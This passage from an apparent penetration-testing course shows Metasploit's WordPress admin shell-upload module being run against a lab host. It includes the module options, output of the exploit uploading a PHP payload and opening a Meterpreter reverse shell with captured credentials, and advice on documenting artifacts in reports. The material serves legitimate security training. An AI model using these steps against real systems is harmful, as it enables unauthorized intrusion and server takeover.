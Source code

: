 ```shell
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   WordPress

```

Once we are satisfied with the setup, we can type `exploit` and obtain a reverse shell. From here, we could start enumerating the host for sensitive data or paths for vertical/horizontal privilege escalation and lateral movement.

```shell
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)

```

In the above example, the Metasploit module uploaded the `wCoUuUPfIO.php` file to the `/wp-content/plugins` directory. Many Metasploit modules (and other tools) attempt to clean up after themselves, but some fail. During an assessment, we would want to make every attempt to clean up this artifact from the client system and, regardless of whether we were able to remove it or not, we should list this artifact in our report appendices. At the very least, our report should have an appendix section that lists the following information—more on this in a later module.

- Exploited systems (hostname/IP and method of exploitation)
- Compromised users (account name, method of compromise, account type (local or domain))
- Artifacts created on systems
- Changes (such as adding a local admin user or modifying group membership)

* * *

## Leveraging Known Vulnerabilities
